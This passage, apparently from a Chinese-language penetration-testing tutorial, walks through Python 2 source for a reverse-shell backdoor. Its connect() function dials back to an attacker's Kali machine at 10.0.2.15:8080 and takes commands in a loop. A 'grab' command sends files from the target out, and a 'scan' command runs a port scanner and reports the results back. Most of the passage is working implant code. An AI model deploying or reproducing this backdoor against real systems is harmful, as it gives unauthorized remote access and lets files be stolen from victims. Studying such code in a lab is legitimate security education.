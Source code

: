 ```
...
def scanner(s,ip,ports):

    scan_result = '' # scan_result is a variable stores our scanning result

    for port in ports.split(','): # remember the ports are separated by a comma in this format 21,22,..

        try: # we will try to make a connection using socket library for EACH one of these ports

            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            output = sock.connect_ex((ip, int(port) )) #connect_ex This function returns 0 if the operation succeeded, and in our case operation succeeded means that 
        #the connection happens which means the port is open otherwise the port could be closed or the host is unreachable in the first place.

            if output == 0:
                scan_result = scan_result + "[+] Port " +port+ " is opened" +'\n'

            else:
                scan_result = scan_result + "[-] Port " +port+" is closed or Host is not reachable" +'\n'

            sock.close()

        except Exception, e:
            pass
    s.send (scan_result) # finally we send the result back to our kali
...
```

所以我们将从端口`22`开始，直到达到最后一个端口。我们的扫描结果将存储在`scan_result`中，`+`符号用于追加结果。最后，我们将结果发送回我们的 Kali 机器。由于我们的 Kali 机器和目标在同一个虚拟子网中，我们应该出现在目标的`arp`表中。

让我们继续看其余的代码：

```
...
def connect():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('10.0.2.15', 8080))

    while True: # keep receiving commands from the Kali machine
        command = s.recv(1024)

        if 'terminate' in command:
            s.close()
            break # close the socket

        elif 'grab' in command: # grab*C:\Users\Hussam\Desktop\photo.jpeg
            grab,path = command.split('*')
            try:
                transfer(s,path)
            except Exception,e:
                s.send ( str(e) )
                pass

        elif 'scan' in command: # syntax: scan 10.0.2.15:22,80
            command = command[5:] # cut off the leading first 5 char 
            ip,ports = command.split(':') # split the output into two sections where the first variable is the ip which we want to scan and the second variable is the list of ports
                                          # that we want to check its status
            scanner(s,ip,ports)

```